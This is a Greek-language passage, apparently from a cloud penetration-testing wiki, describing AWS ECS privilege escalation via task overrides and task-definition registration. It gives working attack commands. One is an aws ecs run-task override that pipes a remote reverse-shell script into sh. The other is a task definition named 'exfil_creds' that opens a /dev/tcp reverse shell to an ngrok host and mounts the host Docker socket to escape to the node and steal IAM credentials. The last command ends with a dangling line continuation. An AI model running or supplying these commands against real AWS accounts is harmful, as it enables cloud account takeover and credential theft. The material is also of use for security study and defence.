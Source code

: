 ### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Στην πραγματικότητα, μόνο με αυτές τις άδειες είναι δυνατόν να χρησιμοποιηθούν παρακάμψεις για να εκτελούνται αυθαίρετες εντολές σε ένα κοντέινερ με έναν αυθαίρετο ρόλο με κάτι σαν:

{% code overflow="wrap" %}
```bash
aws ecs run-task \
--task-definition "<task-name>" \
--overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
--cluster <cluster-name> \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιοδήποτε ρόλο ECS.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Αυτό το σενάριο είναι παρόμοιο με τα προηγούμενα αλλά **χωρίς** την άδεια **`iam:PassRole`**.\
Αυτό είναι ακόμα ενδιαφέρον γιατί αν μπορείτε να εκτελέσετε ένα αυθαίρετο κοντέινερ, ακόμα και αν είναι χωρίς ρόλο, θα μπορούσατε **να εκτελέσετε ένα προνομιακό κοντέινερ για να διαφύγετε** στο κόμβο και **να κλέψετε τον ρόλο IAM EC2** και τους **άλλους ρόλους κοντέινερ ECS** που εκτελούνται στον κόμβο.\
Θα μπορούσατε ακόμα **να αναγκάσετε άλλες εργασίες να εκτελούνται μέσα στην EC2 instance** που έχετε παραβιάσει για να κλέψετε τα διαπιστευτήριά τους (όπως συζητήθηκε στην [**Ενότητα Privesc προς κόμβο**](aws-ecs-privesc.md#privesc-to-node)).

{% hint style="warning" %}
Αυτή η επίθεση είναι δυνατή μόνο αν ο **ECS cluster χρησιμοποιεί EC2** instances και όχι Fargate.
{% endhint %}
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
]
}
]' > /tmp/task.json

printf '[
{
"name": "docker-socket",
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
```